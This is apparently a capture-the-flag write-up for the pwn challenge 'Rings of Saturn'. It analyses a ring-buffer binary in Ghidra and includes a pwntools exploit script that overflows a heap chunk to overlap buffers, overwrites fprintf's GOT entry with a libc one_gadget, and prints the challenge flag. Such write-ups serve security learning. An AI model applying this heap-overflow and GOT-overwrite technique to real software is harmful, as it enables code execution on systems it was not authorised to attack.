

# Rings of Saturn (pwn)
## problem
"We’ll go to the moons of Jupiter, at least some of the outer ones for sure, and probably Titan on Saturn" - Elon Musk

## analysis
The result of checksec is below. There is no PIE and partial RELRO. So we can use "GOT overwrite".  


Now, put in the binary in ghidra, follow the flow of execution.  
### main
In main function, an address of an one_gadget would be leaked at first. Thus this depends on libc base, we can calculate the address of libc base. Then, The program asks prefer size of the buffer as a arg of `ringbuf_init` and enter do-while statement. We can see that `menu` variable is used several times. The elements of `menu` are structure that contains function and its name. So the syntax:`(*(code *)menu[uVar1 * 2 + 1])(uVar2)`, is call the function depends on our input. 

`main`:  
  

### ringbuf_init
At first, the program asks how to segment the size that was asked in `main` function. Each segment must be 1000 or more bytes and less than 3000 bytes. These segments are given the type `buffer` (I named it) and chained by each `next` variables. In addition, `buf_entries` (I named it) is allocated which define the top and bottom of that chain.  
Members of `buffer` and `buf_entries`:
  

Finally, The chain of those are like below:  


### ringbuf_add
Add a `buffer` to the `bottom` of `buf_entries`

### ringbuf_remove
remove a `arg0`th `buffer` counting from `top`. 

### ringbuf_write
Read our input: size and data, and write data on the address of `now_on_use->pbuf`. Then, get how many bytes was read and add this to `now_on_use->pbuf`. If the value of `pbuf` is same or larger than `&buf+size`, the value of `now_on_use` would be modified to `now_on_use->next`.  


### exit_wrapper
Call `fprintf` to print Final message.

## Exploit
I found that if we input `1000` at first, just one `buffer` allocated to heap. In addition, we can cause heap-overflow and modified size of the next chunk. So the plan for the exploit is below:  
1. Input 1000. (chunk size=0x400)
2. Add `buffer` as size=1000 twice. (chunk size=0x410)
3. Use heap-overflow and modified size=0x821. (The most lower bit is PREVIOUS_INUSE)
4. Remove that `buffer` which chunk size is 0x821.
5. Add `buffer` as size=0x800  (img: Exploit1)
6. Modifed `pbuf` of third `buffer` to `fprintf@got`.
7. Write one_gadget on the address of `fprintf@got`.
8. choose "`4. quit`" and call `fprintf`.

Exploit1:  
  
Exploit2:  
  

I couldn't use one_gadget that is given at first. So I used another one_gadget.
```
def add(size=0x10):
    io.sendlineafter("> ", "0")
    io.sendlineafter("> ", str(size))

def write(size=0x10, data=[b"a"]):
    io.sendlineafter("> ", "3")
    io.sendlineafter("> ", str(size))
    for e in data:
        io.recvuntil("> ")
        io.send(e)

def remove(index):
    io.sendlineafter("> ", "1")
    io.sendlineafter("> ", str(index))


def exploit():
    io.recvuntil("lol ")
    leak = io.recvline()[0:-1]
    gadget = int(leak, 16)
    offset = 0x7f00ff91a365-0x007f00ff8cb000
    print("gadget: ", hex(gadget))
    libc.address = gadget - (offset)
    print("libc base: ", hex(libc.address))
    offset = 0x10a45c
    gadget = libc.address + offset

    io.recv()
    io.sendline(str(1000))
    add(1000)
    add(1000)
    payload = [b'a'*992 + p64(0x821), b'a'*1000]
    write(2000, payload)
    remove(1)
    add(0x800)
    payload = [b'b'*1000, b'b'*1008 + p64(0x411) + p64(elf.got["fprintf"])]
    write(2024, payload)

    payload = [b"c"*1024, b"c"*992 + p64(0x821),  p64(gadget)]
    write(2032, payload)

    io.sendlineafter("> ", "4")
```

Flag: `shctf{r0und_and_r0und_we_go}`